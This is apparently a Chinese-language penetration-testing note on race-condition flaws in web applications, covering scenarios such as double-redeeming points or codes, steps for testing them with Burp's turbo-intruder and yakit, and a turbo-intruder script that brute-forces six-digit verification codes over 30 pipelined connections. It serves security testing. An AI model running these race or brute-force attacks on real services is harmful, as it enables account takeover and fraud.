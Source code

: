 并发漏洞：在和数据库交互同一资源时，没有使用数据库事务，导致多个请求并发读取的某个数据的同一状态。(多线程条件竞争)
场景：关注、点赞、收藏、兑换码、积分兑换。
有20积分，同时兑换20积分和15积分的商品。
危害：无限制表插值，浪费资源，一码多用等。

^
## **turbo-intruder测试**
bp插件测并发漏洞，turbo-intruder插件。

<https://blog.csdn.net/m0_63421985/article/details/133899675>
<https://www.wangan.com/p/7fy7f444b121d0aa>
安装后右键请求包，扩展，就可以使用。
进入请求包页面，
在请求包中任意加变量%s：
如：在Host下方输入：x-req:%s
选择代码examples/race.py
代码中concurrentConnections值改为10。range(10)改为10。改成并发10
执行攻击代码。

^
查看并发结果，比较响应长度，是否有并发漏洞。

yakit:
![yakit并发](http://cdn.33129999.xyz/mk_img/yakit并发.jpg)
^
案例场景：
<https://blog.csdn.net/Gherbirthday0916/article/details/130639360>


^
## **并发爆破**
%s爆破6位数验证码
```
from itertools import product


def brute_veify_code(target, engine, length):
    pattern = '1234567890'  # 用于生成字典的迭代对像

    for i in list(product(pattern, repeat=length)):  # product()接收多个迭代对像，然后生成一个笛卡尔积，repeat参数代表重复迭代对象次数。

        code = ''.join(i)

        engine.queue(target.req, code)


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,  # 指定目标的地址

                           concurrentConnections=30,  # 与服务器建立30条连接

                           requestsPerConnection=100,  # 每条连接同时发送100个请求

                           pipeline=True  # 开启管道(HTTP Pipelining)模式

                           )

    brute_veify_code(target, engine, 6)  # 根据验证码位数修改


def handleResponse(req, interesting):
    if 'error' not in req.response:  # 对response进行操作，不含有“error”的添加入表中
        table.add(req)
```
